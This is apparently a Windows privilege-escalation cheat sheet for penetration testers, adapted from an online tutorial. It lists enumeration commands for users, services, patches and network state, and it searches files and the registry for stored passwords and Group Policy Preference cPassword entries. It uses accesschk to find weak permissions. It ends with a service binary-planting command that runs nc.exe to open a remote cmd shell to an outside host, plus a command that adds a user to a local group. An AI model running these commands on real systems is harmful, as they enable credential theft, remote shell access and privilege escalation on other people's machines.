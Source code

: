 
// What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Networking stuff
ipconfig /all

// Routing tables
route print

// ARP cache table for all interfaces
arp -A

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config

// Scheduled tasks
schtasks /query /fo LIST /v

// List all started services (DISPLAY_NAME)
net start

// List running processes
tasklist

// Mapping of running processes to started services
tasklist /SVC

// List all drivers
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

### Quick wins
---

// Quick wins
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Policy Preference files that may have "cPassword" attribute set:
Groups.xml: documented password encryption, can be decrypted **SOS**
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes

// Service permissions
sc query
sc qc [service_name]

### Accesschk
---

// Accesschk (part of "sysinternals")
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)

// List all user permissions
accesschk.exe “domain\user” -a *

// List all service permissions for username
accesschk.exe <username> -c *

// display permissions on every file
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.*
// only Read-Write
acaccesschk.exe /accepteula -s -d IWAM_BOB c:\*.* | find "RW" 

accesschk.exe -ucqv [service_name] 
accesschk.exe -uwcqv "[Group name you belong to]" * 

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "[Group name you belong to]" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)

// add user to local group
net localgroup "Users" IWAM_BOB /add

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]

Links:
---
\[1]: http://www.fuzzysecurity.com/tutorials/16.html  
\[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/  
\[3]: http://www.youtube.com/watch?v=kMG8IsCohHA  
\[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo  
\[5]: http://www.greyhathacker.net/?p=738  
